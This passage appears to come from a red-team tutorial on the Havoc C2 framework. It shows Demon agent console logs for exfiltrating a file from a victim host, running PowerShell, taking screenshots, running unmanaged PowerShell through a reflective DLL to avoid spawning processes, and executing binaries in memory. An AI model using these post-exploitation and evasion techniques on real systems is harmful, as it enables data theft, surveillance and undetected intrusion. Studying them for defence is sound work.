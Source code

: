 * `download` --> Allows downloading files from a victim machine to our local machine.

```
24/01/2024 08:01:03 [Neo] Demon » download C:\users\administrator\webloader.exe

[*] [A0B3CF4D] Tasked demon to download a file C:\users\administrator\webloader.exe
[*] Started download of file: C:\users\administrator\webloader.exe [2.37 MB]
[+] Finished download of file: C:\users\administrator\webloader.exe
```

* `powsershell.exe` --> Allows execution of commands using *powershell*. Bear in mind though that this will create a new *powershell* process on the system each time, which is usually associated with threats. 

```
24/01/2024 08:01:32 [Neo] Demon » powershell whoami

[*] [FE826795] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [172 bytes]
[+] Received Output [28 bytes]:
standalone01\administrator
```

* `screenshot` --> Allows capturing the user's screen (only if a desktop exists, which is usually the case when a user is logged on).

```
24/01/2024 08:07:11 [Neo] Demon » screenshot

[*] [D2EC45F8] Tasked demon to take a screenshot
[+] Send Task to Agent [12 bytes]
[+] Successful took screenshot
```

Screenshots can then be found over at *View -> Loot*:

![](/assets/imgs/havoc-c2/Pasted image 20240219142251.png)

* `poowerpick` --> Allows execution of *powershell* commands without spawning actual *powershell* processes. This works by utilizing specifically crafted *DLL's* that mimic *powershell's* functionality. 

```
24/01/2024 08:08:41 [Neo] Demon » powerpick whoami

[*] [1098765E] Tasked demon to execute unmanaged powershell commands
[+] Send Task to Agent [27144 bytes]
[+] Successful spawned reflective dll
[+] Received Output [28 bytes]:

standalone01\administrator
```

`noconsolation` --> Allows the execution of *PE's (Portable Executables)* in memory instead of having to place them on *disk*. Executing existing binaries that are already on the system is also possible. In the example below, *powershell.exe* was executed in memory.
